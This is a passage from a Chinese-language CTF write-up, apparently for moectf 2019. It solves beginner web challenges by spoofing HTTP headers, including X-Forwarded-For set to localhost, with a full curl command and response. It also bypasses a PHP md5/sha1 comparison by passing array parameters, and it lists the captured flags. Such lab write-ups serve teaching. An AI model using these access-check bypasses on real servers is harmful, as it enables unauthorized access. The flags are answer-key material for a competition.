 就是按照网页的提示改HTTP请求头就好了.

`flag`: `moectf{M0m_I_c4n_m0dify_HTTP_H3aders!}`

这个`flag`写的也让人很想吐槽....

### stronger_php

这个竟然判断md5==sha1…....

用数组绕过, 浏览器打开`http://39.108.11.206:10008/?a[]&b[]=123123`

得到`flag`: `moectf{Y0u_can_st1ll_defeat_m3}`

### 终极HTTP请求头

我!!!!! 想杀人...

先挂出来我的狗血历程🙃:

```bash
## 上面省略2232行尝试的代码
rever@DS-10001-RX MINGW64 ~
$ curl --header "Referer: www.xidian.edu.cn" --header "User-Agent: moectf_browser" --header "X-Forwarded-For: 127.0.0.1" --header "Cookie: xduer" --header "Accept: PHP" --header "Accept-Encoding: UTF-8" --header "Accept-Language: zh-CN" -v -i http://39.108.11.206:10012/
*   Trying 39.108.11.206...
* TCP_NODELAY set
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to 39.108.11.206 (39.108.11.206) port 10012 (#0)
> GET / HTTP/1.1
> Host: 39.108.11.206:10012
> Referer: www.xidian.edu.cn
> User-Agent: moectf_browser
> X-Forwarded-For: 127.0.0.1
> Cookie: xduer
> Accept: PHP
> Accept-Encoding: UTF-8
> Accept-Language: zh-CN
>
< HTTP/1.1 200 OK
< Date: Fri, 06 Sep 2019 14:41:00 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.14
< Vary: Accept-Encoding
< Content-Length: 443
< Content-Type: text/html
<
{ [443 bytes data]
100   443  100   443    0     0   3141      0 --:--:-- --:--:-- --:--:--  3141HTTP/1.1 200 OK
Date: Fri, 06 Sep 2019 14:41:00 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.14
Vary: Accept-Encoding
Content-Length: 443
Content-Type: text/html

First of all, you must come from XiDian University<br>Second, you have to use moectf_browser<br>Third, you have to visit from the localhost<br>Fourth, your identity must be xduer<br>Fifth, client can only accept PHP documents<br>Sixth, we only allow UTF-8 encoding<br>Finally, we are only allowed to use Chinese.<br>Congratulations on having a good understanding of HTTP HEADERS and finally getting flag:<br>moectf{Reward_y0u_For_per3everAnce}
* Connection #0 to host 39.108.11.206 left intact
```
